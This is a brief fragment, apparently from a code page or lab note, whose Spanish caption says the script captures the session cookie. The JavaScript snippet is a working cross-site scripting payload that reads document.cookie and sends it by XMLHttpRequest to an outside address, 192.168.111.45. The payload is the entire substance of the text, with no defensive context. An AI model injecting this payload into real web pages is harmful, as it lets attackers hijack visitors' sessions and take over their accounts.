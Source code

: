 Este script capta la cookie de sesión

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.111.45/?cookie=' + document.cookie);
request.send();
```
